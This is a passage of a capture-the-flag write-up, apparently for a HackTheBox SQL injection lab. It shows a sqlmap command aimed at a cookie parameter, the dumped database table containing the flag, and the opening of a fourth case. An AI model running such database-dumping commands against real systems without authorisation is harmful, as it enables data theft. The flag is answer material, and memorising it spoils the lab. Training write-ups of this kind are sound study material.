```
Cookie: id=1

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

We can see the id parameter is being sent through the cookie, so, we must send the sqlmap command in the following way:

```
python3 sqlmap.py -r reqcase3.txt --batch --dump --threads 10 -p cookie
```

We'll get the following output:

```
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content |
+----+------------------------------------------+
| 1 | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+
```

Got the flag: `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`

## Case 4
---

Let's finish the task with case 4:

![Pasted image 20250204152421.png](../../../../IMAGES/Pasted%20image%2020250204152421.png)

Let's save the request:
